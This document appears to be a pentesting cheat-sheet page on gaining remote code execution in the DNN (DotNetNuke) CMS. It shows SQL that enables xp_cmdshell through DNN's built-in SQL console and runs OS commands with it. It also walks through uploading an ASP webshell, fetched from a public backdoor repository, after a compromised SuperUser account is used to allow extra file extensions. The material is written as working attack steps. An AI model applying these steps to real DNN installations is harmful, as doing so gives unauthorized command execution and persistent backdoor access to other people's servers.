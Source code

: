 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DNN

## RCE

### SQL Console

System command can be run via the built-in SQL console under the Settings menu.

```sql
# enable xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

After pressing `Run Script` OS commands can be executed.

```sql
xp_cmdshell 'whoami'
```

### ASP Webshell

If the `SuperUser` account is compromised, we can access the Security settings (Figure 1) and allow any file extensions needed so we can upload a webshell (Figure 2).&#x20;

<figure><img src="../../../../.gitbook/assets/dnn_security_menu.png" alt=""><figcaption><p>Figure 1: Accessing the Security settings.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/dnn_allow_extensions.png" alt=""><figcaption><p>Figure 2: Add the desired file extensions.</p></figcaption></figure>

Upload a webshell, such as this [`.asp` webshell](https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/asp/newaspcmd.asp) (Figure 3).

<figure><img src="../../../../.gitbook/assets/dnn_upload.png" alt=""><figcaption><p>Figure 3: Uploiad the webshell.</p></figcaption></figure>

Get the file's URL by right-clicking and interact with the webshell.

<figure><img src="../../../../.gitbook/assets/dnn_geturl.png" alt=""><figcaption><p>Figure 4: Get the URL and interact with the webshell.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="DNN" %}
{% embed url="https://www.dnnsoftware.com/" %}
{% endtab %}
{% endtabs %}
